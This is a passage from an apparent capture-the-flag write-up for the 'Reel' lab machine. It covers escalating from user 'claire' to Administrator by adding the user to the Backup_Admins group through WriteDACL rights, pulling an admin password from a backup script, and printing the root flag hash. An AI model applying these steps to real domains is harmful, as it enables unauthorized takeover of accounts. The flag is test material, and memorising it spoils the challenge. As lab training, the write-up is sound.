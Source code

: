 # User Escalation to Claire
We could now use our password to `SSH` into `claire`.
![[Pasted image 20210719224615.png]]

We see that the user has `WriteDACL` and `GenericWrite` on the `Backup_Admins` group.
![[Pasted image 20210719225618.png]]

We could add ourselves into the `Backup_Admins` groups.
```python
claire@REEL C:\Users\claire>net group "Backup_Admins" claire /add /domain
The command completed successfully.
```
We add ourselves to the `Backup_Admins` group.
After, Adding ourselves to the `Backup_Admins` group we have to re `SSH` into the box as it does not enables the privilege.

We see that we can now get inside the `Administrator/Desktop` directory.
```python
claire@REEL C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is CC8A-33E1

 Directory of C:\Users\Administrator\Desktop

01/21/2018  03:56 PM    <DIR>          .
01/21/2018  03:56 PM    <DIR>          ..
11/02/2017  10:47 PM    <DIR>          Backup Scripts
10/28/2017  12:56 PM                32 root.txt
               1 File(s)             32 bytes
               3 Dir(s)  15,772,975,104 bytes free

claire@REEL C:\Users\Administrator\Desktop>type root.txt
Access is denied.
```

We see that we have access to the `Backup Scripts` directory which contains a lot of `ps1` files. Of Which, The `BackupScript.ps1` contains an admin password.
![[Pasted image 20210719232630.png]]

We use the credentials to `SSH` into the `Administrator` user.
![[Pasted image 20210719232848.png]]

## Getting the Root Flag
```python
administrator@REEL C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is CC8A-33E1

 Directory of C:\Users\Administrator\Desktop

21/01/2018  15:56    <DIR>          .
21/01/2018  15:56    <DIR>          ..
02/11/2017  22:47    <DIR>          Backup Scripts
28/10/2017  12:56                32 root.txt
               1 File(s)             32 bytes
               3 Dir(s)  15,772,946,432 bytes free

administrator@REEL C:\Users\Administrator\Desktop>type root.txt
1018a0331e686176ff4577c728eaf32a
```
# Credentials